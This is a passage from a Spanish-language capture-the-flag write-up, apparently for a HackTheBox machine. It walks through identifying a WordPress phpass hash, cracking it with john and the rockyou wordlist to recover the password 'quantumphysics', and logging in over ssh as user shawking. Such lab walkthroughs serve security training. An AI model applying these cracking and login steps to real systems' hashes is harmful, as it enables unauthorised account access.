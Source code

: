 Veremos dos usuarios que muy posiblemente sean válidos en el sistema, `root` y `shawking`


## Hash Cracking

Guardaremos el hash para el usuario `shawking` en un archivo para intentar crackearlo con `john`o `hashcat`

~~~ bash
cat hash.txt                                               

$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
~~~

Antes de intentar crackear los hashes, podemos identificar el algoritmo usado para calcular el hash con la herramienta `hashid`

~~~ bash
hashid '$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./'
Analyzing '$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./'
[+] Wordpress ≥ v2.6.2 
[+] Joomla ≥ v2.5.18 
[+] PHPass' Portable Hash
~~~

Utilizaremos un diccionario, por ejemplo `rockyou.txt` (más usado) para intentar validar si la contraseña forma parte de una de las líneas de este archivo

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
quantumphysics   (?)     
1g 0:00:03:16 DONE (2025-05-03 14:57) 0.005088g/s 22665p/s 22665c/s 22665C/s quarashi33..quaniyah
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
~~~

Luego de esperar bastante rato, encontramos una contraseña `quantumphysics`. Opcionalmente podemos ver la línea exacta donde se encontraba esta contraseña

~~~ bash
cat /usr/share/wordlists/rockyou.txt | grep quantumphysics -n 

4454482:quantumphysics
~~~


## Shell as `shawking`

Nos intentaremos conectar por `ssh` a la máquina víctima

~~~ bash
ssh shawking@blog.bigbang.htb
shawking@blog.bigbang.htb\'s password: 
Last login: Sat May  3 18:48:40 2025 from 10.10.15.9
-bash-5.1$ 
~~~
